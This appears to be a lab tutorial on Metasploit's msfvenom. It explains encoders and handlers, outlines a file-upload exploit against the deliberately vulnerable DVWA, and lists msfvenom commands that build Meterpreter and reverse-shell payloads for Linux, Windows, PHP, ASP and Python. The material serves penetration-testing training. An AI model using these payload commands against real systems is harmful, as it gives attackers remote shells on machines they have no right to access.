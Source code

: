 Msfvenom will allow you to access all payloads available in the  Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

**Encoders**

Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was `raw`.

**Handlers**

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload. When using an exploit module, this part is automatically handled by the exploit module, you will remember how the `payload options` title appeared when setting a reverse shell. The term commonly used to receive a connection from a target is 'catching a shell'. Reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler.

The following scenario may be familiar; we will exploit the file upload vulnerability present in DVWA (Damn Vulnerable Web Application). For the exercises in this task, you will need to replicate a similar scenario on another target system, DVWA was used here for illustration purposes. The exploit steps are;

1. Generate the PHP shell using MSFvenom
2. Start the Metasploit handler
3. Format the PHP correctly -   `<?php ?>`
4. Execute the PHP shell

Linux Executable and Linkable Format (elf)  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

Windows  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
  
PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`  
  
ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`  
  
Python  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`